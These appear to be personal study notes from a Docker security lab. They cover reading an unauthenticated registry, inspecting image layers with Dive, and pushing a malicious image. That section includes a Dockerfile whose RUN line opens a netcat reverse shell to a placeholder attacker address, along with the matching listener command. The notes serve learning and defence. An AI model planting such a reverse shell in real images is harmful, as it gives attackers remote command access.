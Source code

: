 we can get Docker registries data without authentication 

- for reverse engineering, there's a tool Dive https://github.com/wagoodman/dive
- Dive acts as MITM when we run a container, it monitors and reassembles how each layer is created and the containers file system at each stage
- download Docker image to decompile ` docker pull docker-rodeo.thm:5000/dive/example`
- if errors, do Setup again
- install dive: https://github.com/wagoodman/dive#installation
- `docker pull wagoodman/dive`
- `docker images` 
- and see the `/dive/example` with IMAGE ID ` 398736241322 ` 
- `dive 398736241322`


the terminal screen is full of data, 4 different views
- Layers = shows layers and stages of the docker container
- Current Layer Contents = shows container's filesystem
- Layer Details 
- use arrow keys and tab for window navigation
- you can see the commands that were used in building container
- TAB + q  to quit


![[Screen Shot 2023-10-05 at 10.58.17 AM.png]]

---

- `docker pull docker-rodeo.thm:5000/dive/challenge` 
- ` dive 2a0a63ea5d88` 
- 7
- user added `uogctf`
---

## Upload Malicious Docker Image

we can upload (or `push`) our own images to a repository, containing malicious code.
- every container will have a `latest` tag

when `docker run` or `docker pull` Docker tried to find a copy of the image on the host then check if there have been changes it was pulled from, if changes then updated image will be downloaded on the host and execute code

```yml
FROM debian:jessie-slim
RUN apt-get update -y
RUN apt-get install netcat -y
RUN nc -e /bin/sh x.x.x.x 8080
```
have netcat connect to attacker from inside the Docker container
- run `docker build`
- in terminal window `nc -lvnp 8080` for port listening , but this would connect the image as root and not actual host

## Docker RCE 
